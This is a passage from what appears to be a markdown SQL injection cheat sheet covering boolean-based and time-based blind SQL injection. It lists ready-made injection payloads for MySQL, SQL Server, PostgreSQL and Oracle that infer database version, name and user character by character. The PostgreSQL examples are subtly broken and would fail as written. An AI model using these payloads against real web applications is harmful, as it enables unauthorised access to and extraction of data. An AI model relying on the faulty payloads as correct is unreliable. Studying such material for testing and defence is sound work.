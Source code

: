 * **Explanation**: The attacker doesn't directly see the results of the malicious query in the application's response. Instead, they infer information by observing the application's behavior (e.g., page content changes, time delays). This is often slower but equally dangerous.

#### Boolean-based Blind SQLi

* **Explanation**: Sends SQL queries that force the application to return a different result depending on whether a true or false condition is met. The attacker observes changes in the HTTP response (e.g., page content, HTTP status code) to deduce information character by character.
* **Use Case**: When no error messages are displayed, but the page content subtly changes based on the truthfulness of a condition.
* **Payload Example:**
    ```sql
    ' AND 1=2--
    -- If the page changes/shows less content, then ' AND 1=2' evaluated to false.
    ' AND (SELECT SUBSTRING(version(),1,1) = '5')--
    -- If the page is 'normal', the condition is true (MySQL version starts with 5).
    ```

#### Time-based Blind SQLi

* **Explanation**: Sends SQL queries that force the database to wait for a specified amount of time before responding if a condition is true. The attacker observes the response time to infer the truthfulness of the condition.
* **Use Case**: When neither error messages nor content changes are reliable indicators. This is often a last resort due to its slowness.
* **Payload Example (MySQL):**
    ```sql
    ' AND SLEEP(5)--
    -- If the page takes 5 seconds longer to load, it's vulnerable.
    ' AND IF((SELECT SUBSTRING(database(),1,1))='s', SLEEP(5), 0)--
    -- If database name starts with 's', delay for 5 seconds.
    ```
* **Payload Example (SQL Server):**
    ```sql
    '; WAITFOR DELAY '0:0:5'--
    '; IF (SELECT @@version LIKE '%Microsoft%') WAITFOR DELAY '0:0:5'--
    ```
* **Payload Example (PostgreSQL):**
    ```sql
    ' AND pg_sleep(5)--
    ' AND SELECT CASE WHEN (SELECT SUBSTRING(version(),1,1)='9') THEN pg_sleep(5) ELSE 0 END--
    ```
* **Payload Example (Oracle):**
    ```sql
    ' AND DBMS_PIPE.RECEIVE_MESSAGE(('a'),10)=('a')--
    -- This causes a 10-second delay if the pipe message is successfully received.
    ' AND (SELECT DBMS_PIPE.RECEIVE_MESSAGE(('a'),5) FROM DUAL WHERE (ASCII(SUBSTR((SELECT USER FROM DUAL),1,1)))>100)--
    -- Example for conditional delay
    ```
